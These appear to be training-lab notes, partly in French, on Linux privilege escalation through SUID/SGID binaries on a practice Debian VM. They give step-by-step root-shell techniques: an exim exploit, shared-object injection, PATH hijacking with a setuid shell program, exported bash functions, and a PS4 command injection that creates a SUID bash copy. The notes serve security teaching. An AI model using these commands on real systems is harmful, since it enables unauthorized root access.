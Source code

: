 # SUID

Verifier les permissions puis GTFOBins

#### SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:\
`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`\
Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!\
A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.\
Run the exploit script to gain a root shell:\
`/home/user/tools/suid/exim/cve-2016-1531.sh`

\----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

#### Shared Object Injection

The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.\
First, execute the file and note that currently it displays a progress bar before exiting:\
`/usr/local/bin/suid-so`

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:\
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`\
Note that the executable tries to load the **/home/user/.config/libcalc.so** shared object within our home directory, but it cannot be found.\
Create the **.config** directory for the libcalc.so file:\
`mkdir /home/user/.config`\
Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:\
`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`\
Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.\
`/usr/local/bin/suid-so`

**Remember to exit out of the root shell before continuing!**

\----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

#### SUID / SGID Executables - Environment Variables

The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.\
First, execute the file and note that it seems to be trying to start the apache2 webserver:\
`/usr/local/bin/suid-env`\
Run strings on the file to look for strings of printable characters:\
`strings /usr/local/bin/suid-env`\
One line ("service apache2 start") suggests that the **service** executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at **/home/user/tools/suid/service.c** into an executable called **service**. This code simply spawns a Bash shell:

int main() {\
setuid(0);\
system("/bin/bash -p");\
}

`gcc -o service /home/user/tools/suid/service.c`\
Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the **suid-env** executable to gain a root shell:\
`PATH=.:$PATH /usr/local/bin/suid-env`

\----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

#### SUID / SGID Executables - Abusing Shell Features (#1)

The **/usr/local/bin/suid-env2** executable is identical to **/usr/local/bin/suid-env** except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.\
Verify this with strings:\
`strings /usr/local/bin/suid-env2`\
\
In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.\
Verify the version of Bash installed on the Debian VM is less than 4.2-048:\
`/bin/bash --version`\
Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:\
`function /usr/sbin/service { /bin/bash -p; }`\
`export -f /usr/sbin/service`\
Run the **suid-env2** executable to gain a root shell:\
`/usr/local/bin/suid-env2`

\---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

#### SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.\
When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:\
`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`\
Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:\
`/tmp/rootbash -p`
